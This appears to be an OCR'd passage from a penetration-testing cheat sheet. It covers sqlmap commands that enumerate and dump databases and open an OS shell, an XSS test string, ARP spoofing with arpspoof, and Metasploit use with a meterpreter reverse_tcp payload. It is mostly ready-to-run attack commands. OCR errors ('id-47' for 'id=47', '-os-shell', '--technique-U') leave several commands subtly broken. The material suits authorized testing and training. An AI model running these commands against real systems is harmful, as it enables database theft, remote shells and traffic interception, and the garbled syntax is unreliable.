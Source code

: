 ```console
# Display all tables in the database
$ sqlmap -u http://10.10.0.1/index.php?id-47 --tables

# Enumerate the id parameter using the union technique
$ sqlmap -u 'http://192.168.1.72/index.php?id-10' -p id --technique-U

# Dump database contents
$ sqlmap -u 'http://192.162.5.51/index.php?id-203' --dump

# Prompt for interactive OS shell
$ sqlmap -u 'http://192.168.1.17/index.php?id-1' -os-shell
```

#### Cross-Site Scripting (XSS)

Test inputs against XSS using:

```js
<script>alert("XSS")</script>
```

### Host Exploitation

#### `arpspoof`

First, tell your machine to forward packets to the destination host

```console
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

Then, run `arpspoof`:

```console
$ arpspoof -i <INTERFACE> -t <TARGET> -r <HOST>
```

For example:

```console
$ arpspoof -i tap0 -t 10.10.5.1 -r 10.10.5.7
```

#### Basic Metasploit Usage

Launch Metasploit by running:

```console
$ msfconsole
```

Basic commands:

```console
# Search for exploit
msf5 > search apache

# Use exploit (by number)
msf5 > use 1

# Use exploit (by name)
msf5 > use exploit/multi/handler

# Set parameter
msf5 > set payload windows/x64/meterpreter/reverse_tcp

# Show parameters and other options
msf5 > show options
```
